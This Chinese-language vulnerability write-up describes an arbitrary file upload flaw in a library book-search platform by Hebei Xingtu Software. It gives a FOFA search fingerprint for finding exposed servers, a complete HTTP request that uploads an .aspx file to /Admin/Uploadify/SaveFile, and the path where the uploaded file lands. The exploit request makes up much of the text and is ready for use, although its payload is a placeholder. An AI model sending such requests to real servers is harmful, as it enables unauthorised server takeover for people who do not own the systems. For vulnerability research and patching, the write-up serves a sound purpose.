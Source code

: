 # 一、漏洞简介
河北兴图软件科技有限公司基于互联网+图书馆全新的理念自主研发了一系列网页版图书馆集群管理系统，正式推出基础版、标准版、增强版和专业版等版本，适合各类型图书馆需求。图书检索平台存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 图书检索平台

# 三、资产测绘
+ fofa`body="Images/public/yes.png"`
+ 特征

![](images/1724579424545-e9f8ab08-0234-45a8-b5a0-b39b77b1088d.png)

# 四、漏洞复现
```java
POST /Admin/Uploadify/SaveFile?fileUrl=Files/&pdir=/upload/ HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=---------------------------289666258334735365651210512949
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: ASP.NET_SessionId=vkp4usonpxcstreczz05g113
Accept: */*
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Length: 35827

-----------------------------289666258334735365651210512949
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/png

123
-----------------------------289666258334735365651210512949--
```

![](images/1724579774369-6c7aed71-a926-4e3f-b9e1-b5880572a396.png)

```java
/upload//files/4a448e4e-9edd-4cb1-a728-af69b68543e6.aspx
```

![](images/1724579805287-bdc9446c-5a04-457d-8188-45b71019336b.png)


